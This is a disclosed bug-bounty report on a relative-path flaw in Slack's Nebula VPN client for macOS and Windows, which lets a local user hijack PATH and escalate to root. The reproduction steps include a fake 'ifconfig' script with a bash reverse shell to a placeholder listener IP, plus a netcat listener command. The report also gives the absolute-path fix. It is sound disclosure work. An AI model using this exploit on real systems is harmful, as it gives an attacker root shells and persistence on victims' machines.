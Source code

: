 # Relative Path Vulnerability Results in Arbitrary Command Execution/Privilege Escalation

## Report Details
- **Report ID**: 784714
- **URL**: https://hackerone.com/reports/784714
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-28T12:43:33.476Z
- **Disclosed**: 2020-04-01T22:10:32.788Z

## Reporter
- **Username**: jhancock
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
### Overview###
The Nebula clients for Darwin and Windows call relative paths in "exec.Command" to "ifconfig" and "route" executables on Darwin, and to "netsh" on Windows. These commands are entered using relative paths, not absolute paths (such as /sbin/ifconfig). When a binary is run with a relative path, the system uses environmental variables ("PATH") to determine the search order of folders that should be searched for the command run. By modifying the environmental variable, an attacker can prioritize an arbitrary path containing a binary of the same name, and it will execute when Nebula runs. 

The affected code can be found at https://github.com/slackhq/nebula/search?q=exec.Command&unscoped_q=exec.Command); specifically:

nebula/tun_darwin.go:45
nebula/tun_darwin.go:48
nebula/tun_darwin.go:51
nebula/tun_darwin.go:56
nebula/tun_windows:50
nebula/tun_windows:60

###Steps###
To reproduce this attack, open a terminal on a MacOS system running the Darwin Nebula client and a terminal on a Linux or MacOS system to catch the shell. Perform the following steps:
1. On a host accessible to the MacOS system, run the following command to start a Netcat listener:
`sudo nc -nvlp 443`

2. On the MacOS system with the Nebula client, run the command "whoami" (or id) and "hostname"

3. Nebula attempts to call the "ifconfig" command, including three variables. A script file containing a pass-through to ifconfig must be created, but should include a bash reverse shell connecting to the IP address of the system in step 1 ("LISTENER_IP_ADDRESS"). Create a file in the /tmp/ folder called "ifconfig". Enter the following code the file:
```
#!/bin/bash
bash -i >& /dev/tcp/LISTENER_IP_ADDRESS/443 0>&1 &
DEVICE=$1
CIDER=$2
IP=$3
/sbin/ifconfig $1 $2 $3

4. Make the script executable by running `chmod +x /tmp/ifconfig`

5. Run the Nebula client with the command `sudo ./nebula -config config.yml`. When the ifconfig command is called, it will execute the reverse shell command in the script and then continue connecting.

6. On the host in step 1, a reverse Bash shell connects. Run the command "whoami" (or id) and "hostname" and verify the user is now root, and the hostname is the hostname of the MacOS computer in step 2.

Note: To perform this attack on Windows, a custom binary would need to be compiled and named "netsh" but the principles are the same on each OS. 

###Resolution###
Modify the paths on the affected lines to absolute paths. For example, line 45 of nebula/tun_darwin.go reads:

```if err = exec.Command("ifconfig", c.Device, c.Cidr.String(), c.Cidr.IP.String()).Run(); err != nil {```

Modify this snippet to provide an absolute path, as shown below:

```if err = exec.Command("/sbin/ifconfig", c.Device, c.Cidr.String(), c.Cidr.IP.String()).Run(); err != nil```

## Impact

Because Nebula must be run with root/sudo permissions, this can be an effective privilege escalation technique. A standard user can modify the environment and create files in /tmp, and when Nebula is run, the command will open a reverse shell as the root user (see screenshots). Additionally, this could be used to maintain stealthy persistence on an affected machine. Because Nebula must restart to pick up changes to the config.yaml (such as firewall rules), it is reasonable to believe an attacker with presence on the box could modify the PATH settings and script, and the process would be restarted at some point in the future.

## Attachments
No attachments
